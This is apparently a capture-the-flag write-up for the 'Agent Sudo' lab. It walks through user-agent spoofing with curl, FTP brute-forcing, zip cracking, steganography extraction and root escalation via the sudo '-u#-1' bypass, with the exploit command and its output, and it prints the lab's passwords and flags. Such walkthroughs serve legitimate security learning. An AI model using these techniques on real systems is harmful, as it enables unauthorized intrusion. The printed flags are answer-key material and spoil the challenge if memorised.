 # Report on Agent Sudo
![Header](./assets/Header.png)

# Enumiration 
1. The no of ports open -> **3**
we can see the nmap scan report in `nmap.scan`

There is a clue that user agent should be masked to `R`.
Use burpsuite to do so.
![Burpsuite](./assets/user-agent.png)
In the abobe picture we can see that i have changed the useragent to be `R`
we can achieve the same using `curl`
```bash
curl -A "R" -L <Ip address>
`-A` -> masks the user-agent
`-L` -> Follows Redirects
```
2. How you redirect yourself to a secret page? -> **user-agent**

Now we get to know that there are 25 employes and 26 alphebats. 
Lets bruteforce one by one 
```bash
curl -A "C" -L <IP address>
```
The above user returs some secreat..
Its the username.
refer [curl-c.txt](./files/curl-c.txt)

3. What is the agent name? **chris**

# Bruteforce
1. FTP password
A. refer [ftp-bruteforce](./files/ftp-bruteforce.txt)

once am into the FTP, i have seen 3 files, got them to my host and then started ro extracte any hidden files using binwalk.
```bash
binwalk -e <filename>
```
2. Zip file password
Found hidden zip file `8072.zip`.
Its a password protedcted zip file and used john to extract the password
refer [8072.zip](./files/8702-zip-password.txt )

3. Steg password 
And the other file `cute-alien.jpg` -> being a jpg file, there is a prossibility to extracte stegs from the file.
I used `stegseek` to do the same 
```bash
stegseek <filename>
```
![setegseek](./assets/stegseek.png)
[output-file](./files/cute-alien.jpg.out)

```bash
stegseek cute-alien.jpg                                  [ ⚡9ms ] [ 02:26 PM ]
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "Area51"
[i] Original filename: "message.txt".
[i] Extracting to "cute-alien.jpg.out".
```
4. Who is the other agent (in full name)?
[output-file](./files/cute-alien.jpg.out)

5. SSH password
`hackerrules!`
[output-file](./files/cute-alien.jpg.out)

# Flag

1. User flag
**b03d975e8c92a7c04146cfa7a5a313c7**

2. What is the incident of the photo called? 
**roswell alien autopsy**

# Privilege escalation

```Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

`# User privilege specification`
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash
the above command will try to execute the /bin/bash using the username of the `-1`
Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id

and /bin/bash is executed with root permission
```
1. CVE number for the escalation 
[Exploit-db](https://www.exploit-db.com/exploits/47502)

2. What is the root flag?
**b53a02f55b57d4439e3341834d70c062**

3. (Bonus) Who is Agent R?
**DesKel**
